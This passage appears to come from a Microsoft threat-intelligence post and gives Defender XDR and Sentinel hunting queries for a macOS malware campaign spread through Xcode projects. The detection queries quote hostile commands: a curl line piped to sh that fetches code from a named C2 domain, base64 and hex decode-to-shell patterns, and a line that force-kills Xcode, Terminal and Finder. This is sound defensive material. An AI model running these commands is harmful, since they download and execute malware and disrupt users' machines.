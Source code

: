 - Network connection by osascript

- Possible content exfiltration

- Suspicious file or content ingress

## Hunting queries

### Microsoft Defender XDR

Microsoft Defender XDR customers can run the following queries to find related activity in their networks:

**Suspicious commands while building an Xcode project**

Search for suspicious commands related to this threat when an Xcode project is being built.

```
DeviceProcessEvents 
| where ProcessCommandLine has_all("echo", "xxd -p -r", "| sh") or ProcessCommandLine has_all("echo", "base64 -d", "| sh")
| where InitiatingProcessFileName has_any ("sh", "bash", "zsh") 
| where InitiatingProcessCommandLine contains "/Developer/Xcode/DerivedData"

```

**Suspicious payload patterns**

Search for suspicious payload patterns related to this threat.

```
DeviceProcessEvents 
| where ProcessCommandLine has_all("echo", "xxd -p -r", "| sh") or ProcessCommandLine has_all("echo", "base64 -d", "| sh") 
| where InitiatingProcessFileName has_any ("sh", "bash", "zsh")

```

### Microsoft Sentinel 

Microsoft Sentinel customers can use the TI Mapping analytics (a series of analytics all prefixed with ‘TI map’) to automatically match the malicious domain indicators mentioned in this blog post with data in their workspace. If the TI Map analytics are not currently deployed, customers can install the Threat Intelligence solution from the Microsoft Sentinel Content Hub to have the analytics rule deployed in their Sentinel workspace. 

Search for command lines making first contact to C2 server or for command lines stopping Xcode, Terminal, or Finder applications:

```
union DeviceFileEvents, DeviceProcessEvents
  | where Timestamp >= ago(90d)
  | where ProcessCommandLine contains 'curl -fskL -d "https://bulknames.ru/a" | sh >/dev/null 2>&1 &'
  or ProcessCommandLine has "ps aux | grep -E '/Applications/(SimulatorTrampoline|Terminal|Finder).app' | grep -v grep | awk '{print $2}' | xargs kill -9 &/dev/null || true"

```
